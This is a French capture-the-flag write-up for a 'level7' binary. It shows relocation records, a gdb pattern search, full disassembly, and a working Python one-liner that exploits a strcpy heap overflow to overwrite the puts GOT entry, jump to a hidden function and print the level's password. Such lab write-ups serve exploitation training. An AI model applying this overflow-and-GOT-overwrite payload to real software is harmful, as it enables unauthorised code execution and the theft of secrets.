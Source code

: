 ## Démarches

- le `./level7` prend au moins 2 paramètres
    
    `./level7` 

    > Segmentation fault (core dumped)
    
    `./level7 1 1`
    
    > ~~


- `objdump -R level7`
    
    ```
        level7:     file format elf32-i386

        DYNAMIC RELOCATION RECORDS
        OFFSET   TYPE              VALUE
        08049904 R_386_GLOB_DAT    __gmon_start__
        08049914 R_386_JUMP_SLOT   printf
        08049918 R_386_JUMP_SLOT   fgets
        0804991c R_386_JUMP_SLOT   time
        08049920 R_386_JUMP_SLOT   strcpy
        08049924 R_386_JUMP_SLOT   malloc
        08049928 R_386_JUMP_SLOT   puts
        0804992c R_386_JUMP_SLOT   __gmon_start__
        08049930 R_386_JUMP_SLOT   __libc_start_main
        08049934 R_386_JUMP_SLOT   fopen
    ```

- Le programme utilise strcpy pour copier les arguments qu'on peut overflow
- Une function `m` non appelée par le *main* print le contenu du fichier *.pass* ouvert dans le *main*. 
- Avec gdb + peda, on peut déterminer que la taille du buffer est 20

  `pattern create`

  > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  
  `r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'`
  
  > Stopped reason: SIGSEGV

  `pattern search`

    ```
    Registers contain pattern buffer:
    EDX+0 found at offset: 20
    Pattern buffer found at:
    0x0804a018 : offset    0 - size  100 ([heap])
    0xbffff650 : offset   20 - size    4 ($sp + 0x4 [1 dwords])
    ```

- Comme dans les levels précédents, on utilise le jump d'une fonction utilisée (ici *puts* - donc après l'ouverture du fichier *.pass* - à l'adresse *08049928*) en y réécrivant l'adresse de destination (la fonction `m` à l'adresse *080484f4*)
  
- `./level7 $(python -c 'print("A"*20 + "\x28\x99\x04\x08"+" "+"\xf4\x84\x04\x08")')`
  > 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1602077241
<br>
----
## Ressources
- [[Computer Security: A Hands-on Approach] Chapter 4 - Buffer Overflow Attack](http://www.cis.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf)


---

- `objdump -d level7`
```
    08048521 <main>:
        8048521:	55                   	push   %ebp
        8048522:	89 e5                	mov    %esp,%ebp
        8048524:	83 e4 f0             	and    $0xfffffff0,%esp
        8048527:	83 ec 20             	sub    $0x20,%esp
        804852a:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        8048531:	e8 ba fe ff ff       	call   80483f0 <malloc@plt>
        8048536:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        804853a:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        804853e:	c7 00 01 00 00 00    	movl   $0x1,(%eax)
        8048544:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        804854b:	e8 a0 fe ff ff       	call   80483f0 <malloc@plt>
        8048550:	89 c2                	mov    %eax,%edx
        8048552:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        8048556:	89 50 04             	mov    %edx,0x4(%eax)
        8048559:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        8048560:	e8 8b fe ff ff       	call   80483f0 <malloc@plt>
        8048565:	89 44 24 18          	mov    %eax,0x18(%esp)
        8048569:	8b 44 24 18          	mov    0x18(%esp),%eax
        804856d:	c7 00 02 00 00 00    	movl   $0x2,(%eax)
        8048573:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
        804857a:	e8 71 fe ff ff       	call   80483f0 <malloc@plt>
        804857f:	89 c2                	mov    %eax,%edx
        8048581:	8b 44 24 18          	mov    0x18(%esp),%eax
        8048585:	89 50 04             	mov    %edx,0x4(%eax)
        8048588:	8b 45 0c             	mov    0xc(%ebp),%eax
        804858b:	83 c0 04             	add    $0x4,%eax
        804858e:	8b 00                	mov    (%eax),%eax
        8048590:	89 c2                	mov    %eax,%edx
        8048592:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        8048596:	8b 40 04             	mov    0x4(%eax),%eax
        8048599:	89 54 24 04          	mov    %edx,0x4(%esp)
        804859d:	89 04 24             	mov    %eax,(%esp)
        80485a0:	e8 3b fe ff ff       	call   80483e0 <strcpy@plt>
        80485a5:	8b 45 0c             	mov    0xc(%ebp),%eax
        80485a8:	83 c0 08             	add    $0x8,%eax
        80485ab:	8b 00                	mov    (%eax),%eax
        80485ad:	89 c2                	mov    %eax,%edx
        80485af:	8b 44 24 18          	mov    0x18(%esp),%eax
        80485b3:	8b 40 04             	mov    0x4(%eax),%eax
        80485b6:	89 54 24 04          	mov    %edx,0x4(%esp)
        80485ba:	89 04 24             	mov    %eax,(%esp)
        80485bd:	e8 1e fe ff ff       	call   80483e0 <strcpy@plt>
        80485c2:	ba e9 86 04 08       	mov    $0x80486e9,%edx
        80485c7:	b8 eb 86 04 08       	mov    $0x80486eb,%eax
        80485cc:	89 54 24 04          	mov    %edx,0x4(%esp)
        80485d0:	89 04 24             	mov    %eax,(%esp)
        80485d3:	e8 58 fe ff ff       	call   8048430 <fopen@plt>
        80485d8:	89 44 24 08          	mov    %eax,0x8(%esp)
        80485dc:	c7 44 24 04 44 00 00 	movl   $0x44,0x4(%esp)
        80485e3:	00
        80485e4:	c7 04 24 60 99 04 08 	movl   $0x8049960,(%esp)
        80485eb:	e8 d0 fd ff ff       	call   80483c0 <fgets@plt>
        80485f0:	c7 04 24 03 87 04 08 	movl   $0x8048703,(%esp)
        80485f7:	e8 04 fe ff ff       	call   8048400 <puts@plt>
        80485fc:	b8 00 00 00 00       	mov    $0x0,%eax
        8048601:	c9                   	leave
        8048602:	c3                   	ret

    080484f4 <m>:
        80484f4:	55                   	push   %ebp
        80484f5:	89 e5                	mov    %esp,%ebp
        80484f7:	83 ec 18             	sub    $0x18,%esp
        80484fa:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
        8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
        8048506:	ba e0 86 04 08       	mov    $0x80486e0,%edx
        804850b:	89 44 24 08          	mov    %eax,0x8(%esp)
        804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp)
        8048516:	08
        8048517:	89 14 24             	mov    %edx,(%esp)
        804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
        804851f:	c9                   	leave
        8048520:	c3                   	ret
```

****